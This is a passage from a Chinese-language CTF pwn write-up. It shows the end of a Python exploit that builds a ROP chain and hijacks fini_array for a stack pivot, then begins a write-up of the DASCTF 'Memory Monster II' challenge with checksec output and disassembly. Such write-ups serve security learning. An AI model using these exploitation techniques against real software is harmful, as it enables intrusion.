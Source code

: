 ```python
    write(esp+40,p64(0))
    write(esp+48,p64(rop_pop_rsi))
    write(esp+56,p64(0))
    write(esp+64,p64(rop_syscall))
 
    # stack pivoting
    write(fini_array,p64(leave_ret) + p64(ret))
 
if __name__ == '__main__':
    exp()
    p.interactive()
```

### 参考文章

* [[原创]pwnable.tw新手向write up(二) 3×17-x64静态编译程序的fini_array劫持](https://bbs.pediy.com/thread-259298.htm)

## Memory Monster II



> 题目来源 DASCTF 五月赛，作者为 TaQini ，[附件]([https://github.com/hebtuerror404/CTF_competition_warehouse_2020_First/tree/master/2020_DAS_SECURITY_CTF_MAY./Pwnable/Memory%20Monster%20II](https://github.com/hebtuerror404/CTF_competition_warehouse_2020_First/tree/master/2020_DAS_SECURITY_CTF_MAY./Pwnable/Memory Monster II))
>
> 这里和上面那条机会一样，下面是独立完成，详细记录一下

### 保护情况

checksec 检查是没有 canary 但是根据汇编去检查**是有 canary 保护**的：

```shell
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

### 漏洞函数

题目编译的二进制文件没有符号表，可以尝试用 lscan 找到对应 sig 文件修复，没有卵用只修复了两个函数，但是能看到 _start 函数：（重命名部分函数）

```c
.text:0000000000401B00                 public start
.text:0000000000401B00 start           proc near               ; DATA XREF: LOAD:0000000000400018↑o
.text:0000000000401B00 ; __unwind {
.text:0000000000401B00                 xor     ebp, ebp
.text:0000000000401B02                 mov     r9, rdx
.text:0000000000401B05                 pop     rsi
.text:0000000000401B06                 mov     rdx, rsp
.text:0000000000401B09                 and     rsp, 0FFFFFFFFFFFFFFF0h
.text:0000000000401B0D                 push    rax
.text:0000000000401B0E                 push    rsp
.text:0000000000401B0F                 mov     r8, offset __libc_start_fini
.text:0000000000401B16                 mov     rcx, offset __libc_start_init
.text:0000000000401B1D                 mov     rdi, offset main
.text:0000000000401B24                 db      67h
.text:0000000000401B24                 call    sub_4020B0
.text:0000000000401B2A                 hlt
.text:0000000000401B2A ; } // starts at 401B00
.text:0000000000401B2A start           endp
```
